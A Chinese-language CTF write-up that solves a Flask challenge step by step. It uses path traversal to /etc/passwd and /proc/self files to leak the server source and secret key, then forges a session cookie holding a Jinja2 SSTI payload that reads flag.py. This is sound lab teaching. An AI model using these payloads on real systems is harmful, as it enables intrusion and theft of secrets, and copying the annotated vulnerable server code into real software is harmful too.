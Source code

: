 ### /proc/self/ 当前进程信息利用

话不多说，直接上题（青少年 CTF 平台）

![](https://pic1.imgdb.cn/item/6863eb5058cb8da5c884faa8.png)

访问环境，任意输入 `ls`

![](https://pic1.imgdb.cn/item/6863ec4a58cb8da5c8850348.png)

网页将我们的输入值 ls 打印出来，可能存在模板注入

![](https://pic1.imgdb.cn/item/6863ece858cb8da5c8850caa.png)

进一步进入 article 界面，测试 flag，模板注入 `{{1+2}}`

![](https://pic1.imgdb.cn/item/6863ed4f58cb8da5c8850f9f.png)

![](https://pic1.imgdb.cn/item/6863ed5b58cb8da5c8850ffc.png)

注意到输入为 `{{1+2}}` 时给出了路径

![](https://pic1.imgdb.cn/item/6863ed6558cb8da5c8851051.png)

开始尝试路径穿越 `../../../../../../../etc/passwd`，获得 passwd 文件值

![](https://pic1.imgdb.cn/item/6863eddb58cb8da5c88515ad.png)

利用 `/proc/self/environ` 获取当前程序的环境变量

猜测 flag 存在于 `/home/sssssserver/flag`，但是还是显示无权限

![](https://pic1.imgdb.cn/item/6863ee4d58cb8da5c8851c36.png)

利用 `/proc/self/cmdline` 获取当前程序命令行记录，发现 `python server.py` 命令，典型的使用了 flask 或 Django

![](https://pic1.imgdb.cn/item/6863ee9a58cb8da5c88520a1.png)

进一步利用 `/proc/self/cwd` 获取当前进程目录，通过 `/proc/self/cwd/server.py` 得到源码 `server.py`

```python
# 导入必要的模块
import os 
# Flask核心模块
from flask import (
    Flask,
    render_template,  # 渲染模板文件
    request,          # 处理HTTP请求
    url_for,          # URL生成
    redirect,         # 重定向
    session,          # 会话管理
    render_template_string  # 从字符串渲染模板（危险操作！）
)
from flask_session import Session  # 服务器端会话存储

# 初始化Flask应用
app = Flask(__name__)

# !!! 高危安全警告 !!!
# 使用execfile动态执行外部Python文件
# 安全隐患：可能执行恶意代码，应该改用常规导入方式
execfile('flag.py')  # 加载flag.py文件，预期定义flag变量
execfile('key.py')   # 加载key.py文件，预期定义key变量

# 从导入的文件中获取配置
FLAG = flag          # 存储flag值
app.secret_key = key # 设置Flask应用的加密密钥

# 路由定义：/n1page 接受GET和POST请求
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    # 如果不是POST请求，重定向到首页
    if request.method != "POST":
        return redirect(url_for("index"))
    
    # 从表单获取n1code参数，如果不存在则为None
    n1code = request.form.get("n1code") or None 
    
    # !!! 不安全的输入过滤 !!!
    # 仅移除了部分特殊字符，过滤不充分
    # 安全隐患：可能导致模板注入攻击
    if n1code is not None:
        n1code = n1code.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")
    
    # 会话管理逻辑
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code  # 将过滤后的值存入session
        template = None
    
    # 如果session中有n1code值，渲染模板
    if session['n1code'] is not None:
        # !!! 高危安全警告 !!!
        # 直接使用字符串格式化拼接用户输入
        # 可能导致XSS或模板注入漏洞
        template = '''<h1>N1 Page</h1>
        <div class="row">
            <div class="col-md-6 col-md-offset-3 center">
                Hello : %s, why you don't look at our 
                <a href='/article?name=article'>article</a>?
            </div>
        </div>''' % session['n1code']
        
        session['n1code'] = None  # 使用后清空session值
        return render_template_string(template)  # 危险操作！

# 首页路由
@app.route("/", methods=["GET"])
def index():
    # 渲染主页面模板
    return render_template("main.html")

# 文章路由
@app.route('/article', methods=['GET'])
def article():
    error = 0
    # 获取name参数，默认为'article'
    page = request.args.get('name', 'article')
    
    # !!! 不完善的安全检查 !!!
    # 仅检查是否包含'flag'字符串
    # 安全隐患：可能通过路径遍历访问其他文件
    if 'flag' in page:
        page = 'notallowed.txt'
    
    try:
        # !!! 文件操作安全风险 !!!
        # 直接拼接用户输入的文件路径
        # 可能导致任意文件读取漏洞
        file_path = '/home/nu11111111l/articles/{}'.format(page)
        template = open(file_path).read()
    except Exception as e:
        # !!! 信息泄露风险 !!!
        # 直接将异常信息返回给用户
        # 可能暴露敏感系统信息
        template = str(e)
    
    # 渲染文章模板，传入读取的内容
    return render_template('article.html', template=template)

# 主程序入口
if __name__ == "__main__":
    # 启动Flask应用
    # 安全建议：生产环境应设置debug=False
    app.run(host='0.0.0.0', debug=False)
```

在 `key.py` 中得到密钥

```
key = 'Drmhze6EPcv0fN_81Bj-nA'
```

到这里时借用 **Wilson Sumanang, Alexandre ZANNI** 大佬的 [flask session hack ](https://github.com/Jason1314Zhang/BUUCTF-WP/blob/main/N1BOOK/scripts/flask_session_cookie_hack.py)脚本

```shell
python flask_session_cookie_hack.py decode -c {cookie} -s {secert_key}
```

![](https://pic1.imgdb.cn/item/6863f37558cb8da5c88545ff.png)

执行解密脚本

![](https://pic1.imgdb.cn/item/6863f3c458cb8da5c885462c.png)

然后把 `{'n1code': None}` 换成读文件 `flag.py` 的代码，加密回去

```python
{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}
```

![](https://pic1.imgdb.cn/item/6863f56658cb8da5c88547c5.png)

得到 cookie 值，修改网页 cookie 值，在表单填入任意值，完成对 `session['n1code']` 的修改

![](https://pic1.imgdb.cn/item/6863f59858cb8da5c8854810.png)

![](https://pic1.imgdb.cn/item/6863f5a858cb8da5c8854818.png)